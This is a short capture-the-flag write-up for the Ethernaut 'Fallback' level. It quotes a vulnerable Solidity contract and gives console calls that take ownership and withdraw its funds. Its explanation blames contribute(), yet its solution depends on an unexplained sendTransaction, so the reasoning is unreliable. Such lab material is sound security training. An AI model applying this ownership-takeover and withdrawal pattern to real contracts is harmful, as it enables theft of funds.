 # Ethernaut Solutions

Here are my solutions for the Ethernaut challenges.

# 1. Fallback

## Vulnerability

The vulnerability is in the contribute() function:

```
function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }
  ```
  
 If you send more funds to the contract than the current owner, you become the new owner. And once you claim ownership of the contract, you can call the withdraw() function to take the contract's funds.
 
 ```
function withdraw() public onlyOwner {
   owner.transfer(address(this).balance);
 }
 ```
 
  ## Solution
  ```
  await contract.contribute({value: 1})
  await contract.sendTransaction({value: 1})
  await contract.withdraw()
  ```

